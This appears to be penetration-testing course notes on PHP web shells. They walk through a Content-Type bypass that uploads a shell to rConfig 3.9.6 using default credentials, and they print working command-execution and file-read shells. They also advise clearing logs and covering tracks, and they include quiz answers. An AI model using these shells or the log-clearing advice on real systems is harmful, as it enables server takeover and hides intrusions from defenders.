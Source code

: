 # PHP Web Shells

## Overview

**PHP (Hypertext Preprocessor)** is an open-source general-purpose scripting language typically used as part of a web stack that powers websites. As of October 2021, PHP is the most popular server-side programming language, used by 78.6% of all websites whose server-side programming language is known (W3Techs survey).

## Why PHP Web Shells Matter

Since PHP processes code and commands on the server-side, we can use pre-written payloads to:
- Gain a shell through the browser
- Initiate a reverse shell session with our attack box
- Execute commands on the underlying operating system

## Practical Example: rConfig Exploitation

### Target: rConfig 3.9.6 Vulnerability

rConfig is a PHP-based network configuration management tool that contains a file upload vulnerability.

### Attack Vector: Vendor Logo Upload

1. **Access Point**: Navigate to `Devices > Vendors > Add Vendor`
2. **Default Credentials**: admin:admin
3. **Upload Location**: Vendor Logo browse button
4. **File Type Restriction**: Only allows image files (.png, .jpg, .gif, etc.)

### Bypassing File Type Restrictions

#### Tools Required:
- Burp Suite
- PHP web shell payload (e.g., WhiteWinterWolf's PHP Web Shell)

#### Proxy Configuration:
```
IP Address: 127.0.0.1
Port: 8080
```

#### Step-by-Step Process:

1. **Configure Burp Suite**:
   - Start Burp Suite
   - Configure browser proxy settings to route through Burp
   - Accept PortSwigger Certificate if prompted

2. **Upload PHP Shell**:
   - Browse to .php file location
   - Select file and click Save
   - Burp will intercept the request

3. **Modify Content-Type**:
   - Locate the POST request containing file upload
   - Change `Content-type` from `application/x-php` to `image/gif`
   - Forward the request twice

4. **Access Web Shell**:
   - Navigate to: `/images/vendor/connect.php`
   - Execute commands through the browser interface

### Example POST Request Structure:
```http
POST /devices/vendors/add HTTP/1.1
Host: target.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary...

------WebKitFormBoundary...
Content-Disposition: form-data; name="logo"; filename="connect.php"
Content-Type: image/gif

<?php
// PHP web shell code here
?>
------WebKitFormBoundary...
```

## Web Shell Capabilities

Once successfully uploaded and accessed, PHP web shells provide:

- **Command Execution**: Execute system commands
- **File System Access**: Navigate, read, write files
- **Network Operations**: Download/upload files
- **System Information**: Gather OS and application details

## Security Considerations

### Limitations:
- **File Deletion**: Web applications may automatically delete files after pre-defined periods
- **Limited Interactivity**: Restricted OS navigation and file operations
- **Command Chaining**: May not support complex command chains (e.g., `whoami && hostname`)
- **Instability**: Non-interactive shells can be unreliable
- **Detection Risk**: Higher chance of leaving evidence

### Best Practices:

1. **Stealth Operations**:
   - Establish reverse shell quickly
   - Delete payload after successful execution
   - Cover tracks to avoid detection

2. **Documentation**:
   - Record all attempted methods
   - Note successful and failed attempts
   - Document payload names and file locations
   - Include SHA1 or MD5 hashes for verification

3. **Evasion Techniques**:
   - Remove author comments from payloads
   - Use legitimate-looking file names
   - Employ proper cleanup procedures

## Common PHP Web Shell Examples

### Simple Command Execution:
```php
<?php
if(isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

### File Upload/Download:
```php
<?php
if(isset($_POST['file'])) {
    $file = $_POST['file'];
    if(file_exists($file)) {
        readfile($file);
    }
}
?>
```

### Advanced Features:
- File manager interface
- Database connections
- Process management
- Network scanning capabilities

## Detection and Mitigation

### Common Indicators:
- Unusual file uploads to web directories
- Suspicious POST requests to image files
- Unexpected PHP execution in upload directories
- Abnormal outbound network connections

### Defensive Measures:
- Implement proper file type validation
- Use whitelist approach for file extensions
- Scan uploaded files for malicious content
- Restrict execution permissions in upload directories
- Monitor web server logs for suspicious activity

## Engagement Considerations

### Black Box Assessments:
- Emulate real attacker behavior
- Test client detection capabilities
- Operate stealthily when required
- Document all activities thoroughly

### Cleanup Procedures:
- Remove uploaded shells after testing
- Clear log entries if possible
- Provide detailed remediation steps
- Include attribution in reports

## Key Questions for Assessment

1. **Content-Type Bypass**: What Content-Type value allows successful PHP upload?
   - Answer: `image/gif`

2. **File Location**: Where are vendor logos stored?
   - Path: `/images/vendor/`

3. **Default Credentials**: What are rConfig default login credentials?
   - Username: admin
   - Password: admin

## References

- W3Techs PHP Usage Statistics
- WhiteWinterWolf's PHP Web Shell
- rConfig Security Advisories
- OWASP Web Shell Detection Guide 